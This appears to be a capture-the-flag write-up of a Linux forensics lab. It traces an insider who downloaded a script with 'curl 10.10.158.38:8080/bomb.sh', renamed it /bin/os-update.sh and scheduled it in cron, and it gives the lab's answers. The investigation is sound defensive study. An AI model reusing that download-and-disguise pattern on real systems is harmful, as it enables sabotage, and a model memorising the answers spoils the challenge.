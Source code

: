 # 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)


>*Explanation:* checked `/var/log/auth.log` for commands involving package installation. Since `apt` is usually used with `sudo`, we searched for the term `install
> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)


> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```
![user added](task2_q1_answer.png)


> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```
![sudo](task2_q2_answer.png)


> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```
![scriptfile](task2_q3_answer.png)


> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```
![command](task3_q1_answer.png)

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```
![rename](task3_q2_answer.png)


> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```
![modified](task3_q3_answer.png)

> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```

![newfile](task3_q4_answer.png)

> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
cat /etc/crontab
```
![time](task4_q1_answer.png)

> **Answer:** `08:00 AM`

---



